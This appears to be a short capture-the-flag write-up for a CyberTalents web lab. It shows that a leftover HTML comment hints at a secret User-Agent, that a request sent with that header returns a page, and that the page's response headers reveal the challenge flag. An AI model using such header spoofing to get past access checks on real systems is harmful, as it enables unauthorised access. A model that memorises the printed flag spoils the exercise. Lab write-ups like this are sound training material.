 ## Go to  view-source:http://cwcamxwl32pue3e6meg23gk9h8z4kmdvwgqx5b1z5-web.cybertalentslabs.com/


You will find a hint at the end of the page.

```<!-- TO_Be_Removed => Privet-Agent access => givittome-->```


Meaning of the hint: Change User-Agent to givittome

## Request
```
GET / HTTP/1.1
Host: cwcamxwl32pue3e6meg23gk9h8z4kmdvwgqx5b1z5-web.cybertalentslabs.com
User-Agent: givittome
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
Upgrade-Insecure-Requests: 1
Priority: u=0, i

```
## Response

```
HTTP/1.1 200 OK
Server: nginx/1.27.1
Date: Sun, 13 Jul 2025 19:52:49 GMT
Content-Type: text/html; charset=UTF-8
Content-Length: 1808
Connection: keep-alive
X-Powered-By: PHP/7.2.34
Xflag: W3lcome_Ag3nt8
Vary: Accept-Encoding

<!DOCTYPE html>
<html lang="en">
  <head>
    <meta charset="utf-8">
    <meta http-equiv="X-UA-Compatible" content="IE=edge">
    <meta name="viewport" content="width=device-width, initial-scale=1">
    <title>private-agent</title>

    <!-- Bootstrap -->
    <link rel="stylesheet" href="https://maxcdn.bootstrapcdn.com/bootstrap/3.3.7/css/bootstrap.min.css" integrity="sha384-BVYiiSIFeK1dGmJRAkycuHAHRg32OmUcww7on3RYdg4Va+PmSTsz/K68vbdEjh4u" crossorigin="anonymous">
........................
```
## You will find knowledge in Response

### Xflag: W3lcome_Ag3nt8
